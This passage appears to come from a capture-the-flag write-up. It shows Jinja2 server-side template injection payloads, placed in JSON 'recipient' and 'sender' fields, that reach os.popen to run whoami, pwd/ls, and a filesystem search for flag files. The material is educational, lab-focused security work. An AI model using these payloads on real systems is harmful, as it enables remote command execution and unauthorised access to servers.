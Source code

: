 I could use the following input to get the username, the current directoy and a directory listing.

{% raw %}
```
{
   "title":"",
   "recipient":[
      "{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}"
   ],
   "sender":[
      "{{config.__class__.__init__.__globals__['os'].popen('pwd;ls -al').read()}}"
   ]
}
```
{% endraw %}

![snake-array-working](/assets/img/snake-array-working.png)

Then I've used
{% raw %}
```
{{config.__class__.__init__.__globals__['os'].popen('find / -name \\*flag\\* > find-flag.txt  && cat find-flag').read()}}

```
{% endraw %}

to search for all files that contain *flag* in it's name and afterwards cat the results out.
